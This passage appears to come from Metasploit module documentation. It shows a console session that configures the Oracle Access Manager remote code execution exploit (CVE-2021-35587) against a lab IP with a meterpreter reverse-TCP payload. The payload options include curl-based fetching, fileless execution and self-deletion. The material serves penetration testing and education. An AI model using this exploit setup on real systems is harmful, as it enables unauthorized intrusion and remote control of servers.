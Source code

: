 ## Scenarios

### Linux Command

```
msf6 > use exploit/multi/http/oracle_access_manager_rce_cve_2021_35587 
[*] Using configured payload cmd/linux/https/x64/meterpreter_reverse_tcp
msf6 exploit(multi/http/oracle_access_manager_rce_cve_2021_35587) > set TARGET 0
TARGET => 0
msf6 exploit(multi/http/oracle_access_manager_rce_cve_2021_35587) > set PAYLOAD cmd/linux/https/x64/meterpreter_reverse_tcp 
PAYLOAD => cmd/linux/https/x64/meterpreter_reverse_tcp
msf6 exploit(multi/http/oracle_access_manager_rce_cve_2021_35587) > set RHOSTS 192.168.86.70
RHOSTS => 192.168.86.70
msf6 exploit(multi/http/oracle_access_manager_rce_cve_2021_35587) > set LHOST eth0
LHOST => eth0
msf6 exploit(multi/http/oracle_access_manager_rce_cve_2021_35587) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/http/oracle_access_manager_rce_cve_2021_35587) > show options 

Module options (exploit/multi/http/oracle_access_manager_rce_cve_2021_35587):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.86.70    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      14100            yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /oam/            yes       The base path to the OAM application
   VHOST                       no        HTTP server virtual host


Payload options (cmd/linux/https/x64/meterpreter_reverse_tcp):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   FETCH_CHECK_CERT  false            yes       Check SSL certificate
   FETCH_COMMAND     CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE      true             yes       Attempt to delete the binary after execution
   FETCH_FILELESS    none             yes       Attempt to run payload without touching disk by using anonymous handles, requires Linux ≥3.17 (for Pytho
                                                n variant also Python ≥3.8 (Accepted: none, bash, python3.8+)
   FETCH_SRVHOST                      no        Local IP to use for serving payload
   FETCH_SRVPORT     8080             yes       Local port to use for serving payload
   FETCH_URIPATH                      no        Local URI to use for serving payload
   LHOST             eth0             yes       The listen address (an interface may be specified)
   LPORT             4444             yes       The listen port


   When FETCH_FILELESS is false:

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_FILENAME      JLIwdQAt         no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces


```